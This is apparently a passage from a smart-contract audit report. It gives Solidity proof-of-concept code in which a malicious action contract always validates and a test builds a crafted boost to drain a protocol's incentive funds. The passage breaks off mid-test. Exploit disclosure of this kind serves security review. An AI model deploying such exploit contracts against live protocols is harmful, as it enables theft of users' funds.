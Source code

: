 ```solidity
        return interfaceId == type(AERC721MintAction).interfaceId || super.supportsInterface(interfaceId);
    }
    function validate(uint256, /*unused*/ uint256, /* unused */ address, /*unused*/ bytes calldata data_)
        external
        virtual
        override
        returns (bool success)
    {
      return true;
    }
}

```

Finally, crafted `boost` is deployed to drain incentives.
```solidity
    function testCreateBoost_ExploitIncentives() public {
    
        BoostLib.Boost memory boost1 = boostCore.createBoost(validCreateCalldata);

        BoostLib.Target[] memory incentives = new BoostLib.Target[](1);
        incentives[0] = BoostLib.Target({
          isBase: true,
          instance: address(new ExploitIncentive()),
          parameters: abi.encode(
            ERC20Incentive.InitPayload({
              asset: address(mockERC20),
              strategy: AERC20Incentive.Strategy.POOL,
              reward: 1 ether,
              limit: 100
            })
          )
        });

        mockERC20.mint(address(this), 100 ether);
        mockERC20.approve(address(budget), 100 ether);
        budget.allocate(
            abi.encode(
                ABudget.Transfer({
                    assetType: ABudget.AssetType.ERC20,
                    asset: address(mockERC20),
                    target: address(this),
                    data: abi.encode(ABudget.FungiblePayload({amount: 100 ether}))
                })
            )
        );

        
        bytes memory createData = LibZip.cdCompress(
            abi.encode(
                BoostCore.InitPayload({
                    budget: budget,
                    action: BoostLib.Target({
                          isBase: true,
                          instance: address(new ExploitAction()),
                          parameters: abi.encode(
                              AContractAction.InitPayload({chainId: block.chainid, target: address(0), selector: "", value: 0})
                          )
                    }),
                    validator: BoostLib.Target({isBase: true, instance: address(0), parameters: ""}),
```